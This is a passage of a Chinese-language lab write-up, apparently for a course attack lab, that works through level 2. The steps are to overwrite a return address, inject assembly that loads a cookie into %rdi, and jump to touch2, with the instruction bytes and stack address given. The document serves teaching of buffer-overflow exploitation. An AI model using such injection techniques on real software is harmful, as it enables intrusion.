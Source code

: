 使用命令行进行验证，结果如下：

![](/home/fang/Pictures/Screenshot from 2019-11-24 00-41-19.png)



#### level_2

与第一阶段不同，第二阶段中我们需要修改一些局部变量以便于跳转至`touch2`后能输出正确的结果。我们仍然首先查看`touch2`函数的行为。

~~~c
void touch2(unsigned val){
    vlevel = 2;
    if (val == cookie)
    {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
~~~

这段程序要求我们不仅要将程序重定向至`touch2`，还要在此之前将`val`修改至`cookie`对应的值。本次实验我的`cookie`值为`0x76927bbf`。

解题思路：

- 将返回地址设置为代码段的注入地址，本次在栈顶直接注入，所以将返回地址设置为`%rsp`的值。
- 将`%rdi`设置为`cookie`对应的值，即`0x76927bbf`。
- 将`touch2`的首地址放入寄存器，比如`%rax`，然后直接使用`jmp`指令跳转至`touch2`函数。

综上所述，我们需要注入的代码和对应的指令序列为：

~~~assembly
	movq	$0x76927bbf, %rdi
	movq   	$0x555555555ae0, %rax
	jmp 	%rax
~~~

反汇编这段代码，得到的结果是：

![](/home/fang/Pictures/Screenshot from 2019-11-24 10-26-11.png)

于是我们得到这三条指令序列为`48 c7 c7 bf 7b 92 76 48 b8 e0 5a 55 55 55 55 00 00 ff e0`。同`level_1`我们已经获取了`%rsp`的值为`0x5566fd68`。

综上所述，我们得到这样的字符序列，它对应的十六进制形式为：

![](/home/fang/Pictures/Screenshot from 2019-11-24 10-33-32.png)

使用命令行进行验证，结果如下：

![](/home/fang/Pictures/Screenshot from 2019-11-24 10-34-51.png)

类似的，注入后的栈空间为：
